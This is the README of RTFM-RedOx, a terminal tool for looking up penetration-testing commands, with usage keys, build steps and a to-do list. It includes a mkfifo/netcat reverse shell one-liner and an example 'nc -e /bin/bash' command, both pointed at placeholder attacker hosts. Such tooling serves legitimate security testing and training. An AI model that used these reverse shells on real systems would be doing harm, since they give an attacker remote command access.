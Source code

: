 RTFM-RedOx is meant to be an easier to use and updated replacement for [RTFM](https://github.com/leostat/rtfm) (inspired by the book, Red Team Field Manual) as well as something that works similarly to [Rev Shells](https://revshells.com/) or the [HackTools](https://addons.mozilla.org/en-US/firefox/addon/hacktools/) browser plugin.  All without the need to leave your terminal to search through notes or open a browser window, or continually run a python script with a lot of switches you'll never remember.  It's basically like having a terminal history and history search for commands you never type in your terminal but often type when you have a shell on a remote host or when interacting with a vulnerable web app.  That being said, the database also contains many commands you'd also run on your local machine for things like nmap, impacket scripts (adding as I go), crackmapexec, and others.

As I've been working on this I've realized this can also be a good learning resource.  For example, the following reverse shell one liner has been used by many but is probably not all that well understood.
```bash
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc [LHOST] [LPORT] >/tmp/f
```
0xdf has a [great video](https://www.youtube.com/watch?v=_q_ZCy-hEqg) that breaks down that command and explains it in detail. I will be updating references for commands in the database that include deep dive explanations, preferrably to video content, that provide a better understanding for more complex commands.  Any commands related to Kerberos, ADCS or Windows authentication in general will benefit from these types of external references to explainers.  The commands in the database from the original RTFM project do have links to websites and many of those are good but some need updating or additional references to more in depth explanations. 

I'm currently using the sqlite database that [RTFM](https://github.com/leostat/rtfm) uses but that hasn't been updated in almost 6 years so I will be gradually adding new commands and pushing the edited db file to the repository.    


## Usage
```
Ctrl+r           Enter quick search mode to dynamically find commands as you type.
Ctrl+c           Copy currently selected command to clipboard.
Ctrl+u           URL-encode and then copy currently selected command to clipboard.
Crtl+h or hist   Display selectable history of already selected commands.
Ctrl+v           Paste from clipboard
info             Display info on the currently selected command.
env              Show user variables that have already been set.
add -c           Add a command to the database e.g. 'add -c nc [LHOST] [LPORT] -e /bin/bash'
update           Update a database column in the selected command
                 e.g. comment, command, author or references
                 Example: update references http://blog.gregscharf.com
Esc              Exit current mode.
help             Display help
Ctrl+q or exit   Exit redOx.
```

![demo](./redox-demo.gif)


## To Use
```bash
#if you don't already have rust installed
curl --proto '=https' --tlsv1.2 -sSf https://sh.rustup.rs | sh

git clone https://github.com/gregscharf/RTFM-Redox.git
cd RTFM-Redox
cargo run --release
```

## Known Issues

**Debian distributions**: The linker will fail during the build process unless the following packages are installed.
```bash
sudo apt install libxcb1-dev libxcb-render0-dev libxcb-shape0-dev libxcb-xfixes0-dev
```

**Kali**: Sometimes the backspace/delete key requires Ctrl+Backspace/Delete to delete previous typed characters in the redox CLI. And in some cases Ctrl+h stops working, so I've added a 'hist' command for when that occurs until I figure out some of the intermittent key stroke issues. 

**Arch**: No known issues

**Mac M1**: Screen flicker when using up/down arrows 

**Windows**: Not supported because the Termion crate does not work on windows.  I'll be switching to crossterm at some point.


## To Add
- [x] After adding a new command to the db select it as the current command.
- [ ] Continue updating database with newer commands for things like Crackmapexec,ffuf,feroxbuster,Rubeus,Impacket, etc.
- [ ] Update command reference links to better and more up to date content, preferably adding links to video content when possible.
- [ ] Display ids next to references so that if necessary they can be deleted from the db through the redox CLI.  
- [ ] Add config file to store user set variables and other as yet to be determined configurations.
    - This might be the place for related commands that are often used together. Add ability to save the commands in the current history.  Would need a way to quickly delete a command in the current history e.g. highlight the command and then Ctrl+d to remove it. Also need to be able to completely clear the current history.  User would also need to supply a name for the history before it is saved to the config file.  These would be stored as an array of row IDs from TblCommand. Use the 'config' crate to facilitate this.  
- [ ] Ctrl+d while in selectable list deletes the item from the database, or if in history mode, deletes the item from the current history.
- [ ] Left/right arrow keys to edit already typed or pasted in command.  Really only useful when typing a long command to add to or update the database.
- [ ] Make use of tags already implemented in the database to display selectable list of grouped items. For example, 'reverse shells linux' to display all commands in the database grouped under that tag.  At the moment, tags already in the database are probably a little too general to be useful e.g. 'bash', 'windows'.  Also need a function to display all tags in the database as a selectable list.
- [ ] Implement [RTFM](https://github.com/leostat/rtfm)'s solution for creating/updating the database
- [ ] Tab auto complete for best match while in search mode.
- [ ] Switch from termion to crossterm for Windows support.
- [ ] Use pre-existing 'refs' table to link to markdown notes and display notes in terminal when selected.

## To Fix
- [x] Add buffer to scroll through result output that doesn't fit within terminal windows.
- [x] Handle error when output exceeds terminal window so application doesn't crash on Arch.
    - Needs a much better solution
- [ ] Sometimes backspace/delete key requires Ctrl+Backspace/Delete to delete typed character preceding cursor.
- [ ] Switch from termion to crossterm to add support for Windows consoles.      
- [ ] Switch to rusqlite and dump sqlx to avoid openssl static build nightmare to allow for release builds.

